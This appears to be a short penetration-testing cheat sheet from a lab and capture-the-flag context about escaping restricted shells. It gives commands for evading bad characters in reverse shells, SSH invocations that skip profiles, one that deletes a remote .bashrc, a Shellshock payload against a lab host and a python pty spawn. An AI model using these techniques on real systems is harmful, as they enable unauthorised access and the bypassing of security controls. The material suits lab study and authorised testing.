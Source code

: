 # Restricted Shell / SSH

**If reverse shell not working :**

* try changing the port to 443 or 80
* try checking for characters breaking the reverse shell

**Evading Badchars in a reverse shell (HTB Sense)**

* Echo abc
* Echo abc/
* Echo abc -
* Check env variables -> env
* HOME= /
* Echo ${HOME}/home
* Optional (Using ASCII to evade badchars)
* Printf “\55” -> -

**Restricted Reverse Shell :**

* To disable profiling in /etc/profile and \~/.profile
* Locate ifconfig
* /sbin/ifconfig
* nice /bin/bash

**SSH :**

```bash
// Ways to no profile
ssh hostname -t "bash --noprofile"
ssh -t user@host bash --norc --noprofile
ssh -t username@hostname /bin/sh
ssh -t user@host "bash --norc --noprofile -c '/bin/rm .bashrc'"

// SSH bash shellshock (Troll2 Vulnhub)
ssh -i noob noob@192.168.0.119 '() { :; }; uname -a'
```

**Bypass restricted shell using : (dipak.pdf)**

* export PATH=/bin/:sbin/:/usr/bin/:$PATH
* payload = "python -c 'import pty;pty.spawn("/bin/bash")'"
